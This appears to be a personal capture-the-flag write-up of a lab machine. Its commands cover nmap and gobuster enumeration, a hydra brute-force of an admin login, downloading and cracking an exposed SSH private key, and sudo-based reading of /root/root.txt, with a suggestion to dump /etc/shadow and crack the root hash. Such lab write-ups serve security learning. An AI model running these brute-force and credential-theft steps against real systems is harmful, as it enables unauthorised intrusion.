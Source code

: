 sudo nmap -sC -sV 10.10.249.93
![Image](./attachments/Pasted_image 20231219172106.png)

gobuster dir -u 10.10.136.132 -w /usr/share/wordlist/
![Image](./attachments/Pasted_image_20231220105112.png)

Looked at the source code on the normal page. Then at the admin page and found this:
![Image](./attachments/Pasted_image 20231220105137.png)

So we know that the login name is 'admin'.

Let's setup a hydra bruteforce attack.

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.136.132 http-post-form "/admin/:user=admin&pass=^PASS^:password invalid" 
![Image](./attachments/Pasted_image 20231220110248.png)

Found the password: xavier

We can no login and can see our first flag and the RSA private key to login to the SSH server for our next steps to get root on the box.
![Image](./attachments/Pasted_image 20231220110408.png)

We downloaded the key from the server on our local machine
wget 10.10.136.132/admin/panel/id_rsa 
![Image](./attachments/Pasted_image 20231220111710.png)

We then used ssh2john to create a hash from it:
ssh2john id_rsa > hash.txt

We now got the password for the rsa key.

We first need to update the key permissions with:
chmod 600 id_rsa

Then tried to login with the rsa key and the found password for the admin user, but that didn't work. But we know that there is the user 'john', so I tried it for that user and we are able to login and received the user.txt flag!
![Image](./attachments/Pasted_image 20231220112515.png)

Now it's time to for some PrivEsc!
Let's first run sudo -l
![Image](./attachments/Pasted_image 20231220112919.png)

We can run the cat command as sudo, so we can use that to give it our root flag in the root folder with
sudo cat /root/root.txt
![Image](./attachments/Pasted_image 20231220113016.png)
We got the root flag and finished the box.

If the root flag would not have been there, we could also see the content of the passwd and shadow file with the sudo cat command. 
We could have retrieved the root hash and crack it with john and get the password for the sudo user:
![Image](./attachments/Pasted_image 20231220113653.png)

Then on the machine we can move to the root folder and see the root.txt flag:
![Image](./attachments/Pasted_image 20231220113758.png)
